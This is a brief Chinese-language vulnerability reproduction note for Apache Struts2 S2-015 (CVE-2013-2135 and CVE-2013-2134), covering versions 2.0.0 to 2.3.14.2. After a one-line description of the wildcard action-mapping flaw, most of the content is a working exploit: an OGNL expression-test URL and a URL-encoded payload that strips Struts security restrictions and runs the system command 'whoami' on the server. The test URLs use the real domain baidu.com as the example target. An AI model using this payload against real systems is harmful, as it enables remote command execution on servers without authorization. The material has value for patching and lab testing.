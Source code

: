 # （CVE-2013-2135）（CVE-2013-2134）s2-015

## 一、漏洞简介

基于通配符定义的动作映射，如果一个请求跟任何其他定义的操作不匹配，他将会匹配*，并且请求的同操作名称的jsp文件

## 二、漏洞影响

2.0.0 - 2.3.14.2

## 三、复现过程

```bash
http://baidu.com:8080/example/HelloWorld.action

```

==>改成

```
http://baidu.com:8080/example/%25%7B1%2B1%7D.action

```

![图片.png](images/e6fa8aedb29b4386b3ff928b8e2db517.png)

### poc

```
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%2C%23q%7D.action

```

